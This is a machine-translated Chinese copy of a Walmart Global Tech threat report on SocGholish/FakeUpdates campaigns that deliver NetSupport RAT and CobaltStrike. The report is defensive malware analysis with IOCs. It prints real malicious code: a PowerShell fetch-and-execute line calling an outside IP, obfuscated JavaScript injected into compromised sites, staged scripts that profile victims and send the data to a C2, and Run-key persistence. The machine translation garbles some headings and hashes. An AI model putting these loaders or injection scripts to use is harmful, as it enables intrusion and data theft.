

# 英式英语活动和初始访问工具包

> 原文：<https://medium.com/walmartglobaltech/socgholish-campaigns-and-initial-access-kit-4c4283fea8ee?source=collection_archive---------1----------------------->


作者:杰森·里维斯和约书亚·普拉特

SocGholish 又名 FAKEUPDATES 于 2017 年首次报道。虽然最初的分析和报告没有得到太多关注，但随着时间的推移，活动背后的行为者继续扩大和发展其业务。与 Evil Corp 合作，FAKEUPDATE / SOCGHOLISH 框架已经成为主要的企业初始访问媒介。该框架背后的威胁行为者有强大的地下联系，通过他们与邪恶公司的合作伙伴关系证明了这一点，并表明经过彻底审查的网络犯罪活动。利用该框架的威胁攻击者给全球企业带来了巨大风险，并展示了顶级渗透测试能力。根据联邦调查局的数据，由于他们的活动造成的典型损失为每次事件 100 万到 4000 万美元[1]。

大多数关于 SocGholish 的公开报道都围绕着虚假软件更新的使用，要么是通过下载，要么是通过垃圾邮件中的链接。然而，正如我们将在本报告中展示的那样，他们有能力全年开展特定的活动。我们将通过使用我们自己的私人研究和第三方公共研究，将一个以前未归属的活动与该威胁组织联系起来。最后，我们还将展示一种以 SocGholish NetSupport RAT 配置为中心的方法，这种方法可以带来其他启示，包括发现一个公开可用的 zip 文件，该文件将我们发现的 RAT 配置之一链接到 SocGholish 活动。

# 国税局活动

在研究 NetSupport RAT 活动时，我们遇到了一个涉及假验证码、被入侵的网站和基于. NET 的加载程序的活动。该恶意软件似乎是一个 XLL 加载器[7]，似乎主要与网络支持活动有关。


我们能够找到一个来自 Cofense 的关于这些活动的博客[2]以及一个来自 IOC 的研究人员的转储[9]，但是缺乏细节，也没有提到归因。由于他们的竞选照片，它确实为我们提供了一些额外的支点。其中一个支点特别显示了被入侵网站的使用情况:


这些网站只是附加了一个指向验证码网站的重定向位置:

```
# echo “bD1odHRwczovL2lyc2J1c2luZXNzYXVkaXQubmV0L2NhcHRjaGEucGhw” |base64 — decode
l=hxxps://irsbusinessaudit[.]net/captcha.php
```

我们还可以关注这个验证码网站，因为他们重复使用相同的验证码入口代码:


当时 hlmequipment 域的 IP 地址是 5.252.178[。]213 基于被动 DNS 数据，该数据显示了 XLL 加载程序以及 LNK 文件的类似用法:


LNK 文件是一个下载器，也将用于最终导致 NetSupport RAT:

```
process call create “cmd /c start /min C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -c IEX (iwr –usebasicparsing ‘http://5.252.178.213/restore.dat')"!%SystemRoot%\System32\SHELL32.dll
```

LNK 文件似乎是通过 VHD 文件垃圾利用。相关的 VHD 文件有:

```
fe2502a6432f272e6fcb7406182907cd54a94a958ee449be1528263a8caf0ac0
4ca5c2c0cc2bd56626c3499a88bd5b4ce2bf053c37e50902722220279e2d26d5
ba757fa287f859745578b293896e4405b040dad3b393a7128966f15fa28dd7d8
```

这些文件也可能存在于被入侵的网站上:


这些文件似乎包含 LNK 文件，在上面的实例中将下载“restore.dat”。他的文件是一个基于脚本的加载器，然后加载一个. NET base64 编码的 XLL 加载器。在上面的例子中，它指向这个文件:


这些。基于. NET 的加载器包含了一种简单的方法，它们混淆了所有重要的字符串:

```
private static Random random = new Random(); 
private static int dec2(int a, int varXLRDDAE) {
     return (a - varXLRDDAE) / varXLRDDAE; 
} 
public static string RandomString(int length) { 
    IEnumerable<string> arg_291_0 = Enumerable.Repeat<string>(Encoding.ASCII.GetString(new byte[] { 
        (byte)IVOTSVZ.dec2(2178, 33), 
        (byte)IVOTSVZ.dec2(2211, 33), 
        (byte)IVOTSVZ.dec2(2244, 33), 
        (byte)IVOTSVZ.dec2(2277, 33), 
        (byte)IVOTSVZ.dec2(2310, 33), 
        (byte)IVOTSVZ.dec2(2343, 33), 
        (byte)IVOTSVZ.dec2(2376, 33),
```

在我们分析的所有利用加载器的活动中，流程都是相同的。由于的静态特性。NET 操作码，我们可以自动解析和解码编码数据。

解码字符串:

```
ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789
asdjvibisi4
taskhostw.exe
hxxp://149.28.68[.]114/form_irs_check.png
Software\\\\Microsoft\\\\Windows\\\\CurrentVersion\\\\Runtaskhost\\\\client32.exe\\\\\\\\\\\\\\\\\\\\
asdkjiufua
```

其中一个 XLL 装载机也有一个域名，而不是一个 IP。除了通过 HTTPS 进行交流，该示例还与 irsbusinessaudit[。]net，它被用作上述 captcha 活动的一部分，导致了 NetSupport RAT:

```
GatewayAddress=irsgetwell.net:443SecondaryGateway=asaicuuvuvyy33ifbcia33.cn:443
GSK=GM<AAFFI:M?ECKHP=IBLFP;I?OED:G
```

网关地址专门与 SocGholish[8]相关联:


# FakeUpdate 驾车下载

“路过式”下载活动通常由注入了 javascript 代码的网站组成:


在这种情况下，注入的代码将最终进入:

```
hxxps://design.lawrencetravelco[.]com/report?r=dj1iNjI0OWFiNTViODVhMDIxZmRjZCZjaWQ9MjYy
```

这些网站是围绕涉及浏览器更新的社会工程设计的，所针对的浏览器是市场上使用的主要浏览器；Chrome，Firefox，IE 和 Opera。下面是一个伪边缘更新的例子:


下载的 zip 文件的结构将是<words>。[a-F0–9]{ 6 }。zip，并将解压缩到一个 javascript 文件，该文件将开始签入一个 C2，并下载更多脚本来分析环境。</words>


该脚本发送一些硬编码的值，通常是一个字母和两个数字，并将变量 url2 设置为 C2 URL。然后，来自 C2 的响应将在与该脚本相同的上下文中执行。下一个代码块称为“init ”,通常用于收集有关其执行环境的更多数据，但可以看到它正在访问先前设置的“url2”变量:

```
upperScope.b_request = request
upperScope.reqUrl = url2
```

WMI 有些疑问:

```
var colItems = objWMIService.ExecQuery("SELECT * FROM Win32_ComputerSystemProduct", "WQL");
var colItems = objWMIService.ExecQuery("SELECT * FROM Win32_OperatingSystem", "WQL");
var colItems = objWMIService.ExecQuery("SELECT * FROM AntiSpywareProduct", "WQL");
var colItems = objWMIService.ExecQuery("SELECT * FROM AntiVirusProduct", "WQL");
var colItems = objWMIService.ExecQuery("SELECT * FROM Win32_Process", "WQL");
var colItems = objWMIService.ExecQuery("SELECT * FROM Win32_Service", "WQL");
```

该脚本将最终收集大量信息并发送出去:

```
var userdnsdomain = wsh.ExpandEnvironmentStrings('%userdnsdomain%')
var username = wsh.ExpandEnvironmentStrings('%username%')
var computername = wsh.ExpandEnvironmentStrings('%computername%')
var processor_architecture = wsh.ExpandEnvironmentStrings('%processor_architecture%')
var whoami = executeCmdCommand('whoami /all')
req.push(['init_result', '1'])
req.push(['ConsentPromptBehaviorAdmin', ConsentPromptBehaviorAdmin])
req.push(['PromptOnSecureDesktop', PromptOnSecureDesktop])
req.push(['osBuildNumber', osBuildNumber])
req.push(['osCaption', osCaption])
req.push(['whoami', whoami])
req.push(['userdnsdomain', userdnsdomain])
req.push(['username', username])
req.push(['computername', computername])
req.push(['processor_architecture', processor_architecture])
req.push(['asproduct', ASProduct])
req.push(['processlist', processlist])
req.push(['servicelist', servicelist])
this['eval'](prepareRequest(req))
```

该链的交付以前是 NetSupport RAT，但最近交付了一个被 AV 公司称为“Blister”加载程序的 CobaltStrike 加载程序，通常与重命名的 Rundll32 可执行文件一起放在 ProgramData 内的一个文件夹中。将要使用的文件夹和文件的名称被硬编码在负责解码 CobaltStrike 文件的一个层中，这样，如果需要的话，它可以自己设置。

示例:



正在使用的 CobaltStrike 延展性配置文件将利用新的 WerFault.exe 进程，该活动与 dll 很好地融合在一起，因为它们包含许多导出，并且在沙盒引爆期间，通常会合法地导致多个故障发生。

# FakeUpdate Malspam

这些活动的流程与上述“路过式”下载链类似，只是会向外发送指向受损网站的链接。

示例:

```
hxxps://payyourintern[.]com/two-p-1-posts-in-the-un-for-young-specialists
```

访问这个站点将导致运行一些注入的 javascript 代码

```
<script>;(function(){var wq=document[id("cmVmZXJyZXI=")]||'';var nb=new RegExp(id('Oi8vKFteL10rKS8='));if(!wq||window[id("bG9jYXRpb24=")][id("aHJlZg==")][id("bWF0Y2g=")](nb)[1]==wq[id("bWF0Y2g=")](nb)[1]){return;};var ji=navigator[id("dXNlckFnZW50")];var nl=window[id("bG9jYWxTdG9yYWdl")][id("X19fdXRtYQ==")];if(go(ji,id("V2luZG93cw=="))&&!go(ji,id("QW5kcm9pZA=="))){if(!nl){var vc=document.createElement('script');vc.type='text/javascript';vc.async=true;vc.src=id('aHR0cHM6Ly9kZXNpZ24ubGF3cmVuY2V0cmF2ZWxjby5jb20vcmVwb3J0P3I9ZGoxaU5qSTBPV0ZpTlRWaU9EVmhNREl4Wm1SalpDWmphV1E5TWpZeQ==');var ni=document.getElementsByTagName('script')[0];ni.parentNode.insertBefore(vc,ni);}}function id(at){var zx=window.atob(at);return zx;}function go(rs,mr){var zx=(rs[id("aW5kZXhPZg==")](mr)>-1);return zx;}})();</script>
```

这将导致上述相同的链，您可能已经注意到一些静态值不断出现:

```
cmVmZXJyZXI=
Oi8vKFteL10rKS8=
```

多亏了服务 PublicWWW[6],我们可以使用这些数据来检查其他受损的网站:


# 英式英语感染包

我们发现的与该威胁组相关的所有 NetSupport RAT 配置在其配置的顶部都有一个静态结构，这意味着我们可以通过它找到更多信息。

BCD 004 db 9 f 44 f 2414 c 7094 f 79 AFB 2d 80230611 E5 B4 f 97960685157d 236186126

```
[HTTP]
GatewayAddress=mixerspring.cn:443SecondaryGateway=aasdig8g7b448ugudf.cn:443
GSK=GM;NADEL9C>IAPEF9K=OCHFL:C=IAP
```

4 fffa 055d 56 e 48 fa 0 c 469 a 54 e 2 EBD 857 f 23 ECA 73 a 9928805 b 6 a 29 a 9483 dffc 21

```
[HTTP]
GatewayAddress=sjvuvja.com:443SecondaryGateway=nsncasicuasyca831cs3vvz.cn:443
GSK=FK:O?HDE9C>ICGHM=FBKFL;E@NFA:I
```

最后一个配置(4fff)与一个 NetSupport RAT 包相关，该包与另一个 ZIP 文件有着有趣的关系:


文件名确实类似于 Chrome 浏览器活动和感染的 SocGholish fakeupdate，所以我们来分析一下。首先是 fakeupdate 文件，它会以 zip 文件的形式下载到目标计算机上。

文件名:Chrome。Update.50e772.js

hash:56de 90d 87 bb 9 AFC 5345991 b 910 a 17 cf 0 c 6 ee 95 CB 97 ea 4 b 6 de 87 FD 93 A8 f 22 c 9 c 0

```
{‘URLS’: [‘https://10b33845.xen.hill-family.us/pixel.gif'], ‘C2’: [‘10b33845.xen.hill-family.us’]}
```

文件名:stage_2.js

哈希:ee 526 c 0 f 6 ce 5632 e 585 b 38322 C2 b 6332730 DFA 9702d 0d 94 c 99 dff 7 a 36 f 98 db1b

该文件是 SocGholish 的“init”部分，它充当受感染系统的初始分析器，并发送大量数据和一些硬编码值:

```
var req = [];
req.push('b');
req.push('503');
req.push(selfName);
req.push(ComputerName);
req.push(UserName);
req.push(Domain);
req.push(dnsDomain);
req.push(Manufacturer);
req.push(Model);
req.push(BIOS_Version);
req.push(AntiSpywareProduct);
req.push(AntiVirusProduct);
req.push(MACAddress);
req.push(ProcessList);
this['eval'](request(req));
```

文件名:stage_3.js

哈希:465 ab 5550 BC 788 a 274 e 38 a 71 ecdc 246d 407 c 453 a 7 a2 d 533 a 9 B4 aa 2d 9 e 53 a 8463

这是一个下载程序，设计用于下载和执行 powershell 脚本，它做的第一件事是设置一些将被利用的变量:

```
var execFileName = '2b5fdce5.ps1';
var fs = new ActiveXObject("Scripting.FileSystemObject");
var _tempFilePathExec = fs.GetSpecialFolder(2) + "\\" + execFileName;
```

提交下载文件的请求，并将其写入硬编码的名称:

```
try {
    var req = [];
    req.push('d');
    req.push('503');
    var fileContent = request(req);
    var stream = new ActiveXObject('ADODB.Stream');
    stream.Type = 2;
    stream.Charset = "ISO-8859-1";
    stream.Open();
    stream.WriteText(fileContent);
    stream.SaveToFile(_tempFilePathExec, 1);
    stream.Close();
} catch (e) {
    initExeption = 'error number:' + e.number + ' message:' + e.message;
}
```

引爆:

```
if (initExeption == ‘0’) {
  try {
    var wsh = new ActiveXObject(“WScript.Shell”);
    runFileResult = wsh.Run(‘powershell -ep bypass -windowstyle hidden -f “‘ + _tempFilePathExec + ‘“‘, 0);
  } catch (e) {
    runFileExeption += ‘error number:’ + e.number + ‘ message:’ + e.message;
  }
}
```

提交完成并进入下一阶段，这将是 javascript 后门部分的另一个脚本片段:

```
var req = [];
req.push(‘c’);
req.push(‘503’);
req.push(_tempFilePathExec);
req.push(runFileResult);
req.push(initExeption);
req.push(runFileExeption);
this[‘eval’](request(req));
```

文件名:stage_4.ps1

哈希:a 1f 710 e 70688 c 61 f 447d 575 a 081 f 10 f 21 c 999170 e 67 cdedff 11 ACB 6b 87 b 0 ba 14

这是前一阶段下载并引爆的 powershell 文件，有趣的是混淆用法的重叠。这里的模糊包装器与 TA505[4]使用的 ServHelper[4，5]相关。解码与对与 ServHelper 相关的 powershell 文件的解码完全相同:

```
>>> passw = ‘n1db20gsmk536cazhrtuyx4fvol9q8pi’
>>> salt = ‘qxijovsr5w0a7zml9tpn2g3f8u6d1k4y’
>>> blob = find_blob(data)
>>> len(blob)
5289900
>>> derbytes = MS_PasswordDeriveBytes(passw, salt, hashlib.sha1, iterations=2, keylen=16)
>>> c = DES3.new(derbytes, DES3.MODE_CBC, iv[:8])
>>> out = c.decrypt(b64decode(blob))
>>> out[:100]
‘\r\n\r\n\r\nfunction oghygb4 {\r\n param($string, $method)\r\n $saguhga = [System.Text.Encoding]::ascii’
>>> open(sys.argv[1]+’.decr’, ‘wb’).write(out)
```

解码后的文件就是原始 ZIP 包中的 stage_5 文件。这个文件负责对 NetSupport RAT 包进行异或解码，并设置它的安装。

在 AppData 中创建随机文件夹:

```
$randf=( -join ((0x30..0x39) + ( 0x41..0x5A) + ( 0x61..0x7A) | Get-Random -Count 8 | % {[char]$_}) )$fpath =”$env:appdata\$randf”mkdir $fpath
```

设置 rat clientname 并删除 temp 中的所有 ps1 文件以进行清理:

```
$clientname=’ctfmon’+’.exe’remove-item $env:TEMP\*.ps1
```

将 zip 文件写入 appdata:

```
$lit=”$fpath\$randf”+”.zip”$gr = [System.Convert]::FromBase64String($nfuyrgg1)Set-Content -Path “$lit” -Value $gr -Encoding Byte
```

解压缩它，然后清理 zip 文件:

```
cd $fpathexpand-archive “$lit” “./”remove-item “$lit”
```

将 rat 客户端重命名为 ctfmon.exe

```
rename-item “client32.exe” “$clientname”
```

解码注册表项:

```
$reg = oghygb4 “Jik2MF07PQ0TERAGHAcpKA4EHA0GCgETMjUcCwMIGREpJhIVHAcbETECHBEcCgk7PBcb” “z47gha”Decoded shows that it is for setting up a autorun key:bytearray(b’HKCU:\\Software\\Microsoft\\Windows\\CurrentVersion\\Run’)
```

设置运行键并启动程序:

```
new-ItemProperty -Path “$reg” -Name “ctfmon_” -Value “$fpath\$clientname”start-process “$fpath\$clientname”
```

文件名:DOo0gd4h.zip

hash:82 ddf 784507 fffbbbcca 749 a 687990345041 c 6 c 6 CB 5 f 4d 768 ee 4136 B3 B4 F4 f 03

这是经过 XOR 解码的 NetSupport RAT 包，客户端配置:

```
[HTTP]
GatewayAddress=sjvuvja.com:443
SecondaryGateway=nsncasicuasyca831cs3vvz.cn:443
GSK=FK:O?HDE9C>ICGHM=FBKFL;E@NFA:I
```

# IOCs

XLL 装载机:

```
9d8d289dd7fe149e89152983e40b2c1031e0dba3de9d89513163068bfb27a314
ccc0204486cbf8b6db43711ddf8d847cfc15d5f713c60b53c461c4e4eeeb1a4f
abf625d2b1f5f0eb5149fa32ab6e81d148c7316ccb03da2b3db29c964a0cffe7
8b7ece2a8678eef68c30332c283abcac6518732bf75eb19418516c18b361fafd
617c331b65e0d26e1e64a04f06555891e719b578fd2bdc41065458176821f0c1
```

网络支持 RAT 包:

```
61707f944c47121ba23f3889773aa7c858aa2aae174a145f0170ad7d0384d3bd
a79b86d06a64f3df1d503a5052a912de767eb1081b6b5192a1acfb9ce2c0a26e
82ddf784507fffbbbcca749a687990345041c6c6cb5f4d768ee4136b3b4f4f03
```

活动文件:

```
fac07b49491d3639c0e8c800a71432b4ad1e4d827e9436b49fbbaefeadd853f9
fe2502a6432f272e6fcb7406182907cd54a94a958ee449be1528263a8caf0ac0
4ca5c2c0cc2bd56626c3499a88bd5b4ce2bf053c37e50902722220279e2d26d5
ba757fa287f859745578b293896e4405b040dad3b393a7128966f15fa28dd7d8
584de2da31e64ccb44b618173344c5625288ba478d8b74cddd0b12ec7b689be4
```

网络 IOC:

```
irsbusinessaudit.net
irsbusinessaudit.net/captcha.php
sjvuvja.com
hill-family.us
mixerspring.cn
nsncasicuasyca831cs3vvz.cn
aasdig8g7b448ugudf.cn
irsgetwell.net
asaicuuvuvyy33ifbcia33.cn
149.28.68.114/form_irs_check.png
45.77.87.77/form_irs_check.png
5.252.178.213/restore.dat
5.252.178.213/thumb_cdn.png
hlmequipment.com
businessaudit.tax/verification.php
irsbusinessaudit.tax/f4742.php?e=info@tulsadiamond.com
irsbusinessaudit.tax/f4742.php?e=tgentry@comfortmc.com
contentcdns.net
asaasdivu73774vbaa33.cn
solenica.com/wp-content/themes/twentyfive/order.vhd
45.76.172.113/fakeurl.htm
194.180.158.173/fakeurl.htm
87.120.8.141/fakeurl.htm
design.lawrencetravelco.com
```

重定向者:

```
.php?r=bD1odHR
/report?r=dj1
```

# 参考

1:[https://docs . house . gov/meetings/JU/JU00/2022 03 29/114533/HHRG-117-JU00-2022 03 29-SD 006 . pdf](https://docs.house.gov/meetings/JU/JU00/20220329/114533/HHRG-117-JU00-20220329-SD006.pdf)

2:[https://co sense . com/blog/rat-campaign-looks-to-take-advantage-of-tax-season](https://cofense.com/blog/rat-campaign-looks-to-take-advantage-of-the-tax-season)

3:[https://research . NCC group . com/2020/06/23/wasted locker-a-new-ransomware-variant-developed-by-the-evil-corp-group/](https://research.nccgroup.com/2020/06/23/wastedlocker-a-new-ransomware-variant-developed-by-the-evil-corp-group/)

4:[https://www . proof point . com/us/threat-insight/post/serv helper-and-flawedgrace-new-malware-introduced-ta 505](https://www.proofpoint.com/us/threat-insight/post/servhelper-and-flawedgrace-new-malware-introduced-ta505)

5:[https://medium . com/walmartglobaltech/ta 505-adds-golang-crypter-for-delivering-miners-and-serv helper-af 70 b 26 a6 e 56](/walmartglobaltech/ta505-adds-golang-crypter-for-delivering-miners-and-servhelper-af70b26a6e56)

6:[https://publicwww.com/](https://publicwww.com/)

7:[https://www . bleeping computer . com/news/security/恶意-excel-xll-add-ins-push-redline-password-steaking-malware/](https://www.bleepingcomputer.com/news/security/malicious-excel-xll-add-ins-push-redline-password-stealing-malware/)

8:[https://decoded . avast . io/Jan Rubin/parrot-TDS-take-over-web-servers-and-threats-millions/](https://decoded.avast.io/janrubin/parrot-tds-takes-over-web-servers-and-threatens-millions/)

9:[https://github . com/execute Malware/Malware-IOCs/blob/main/2022-02-17% 20 net support % 20 IOCs](https://github.com/executemalware/Malware-IOCs/blob/main/2022-02-17%20Netsupport%20IOCs)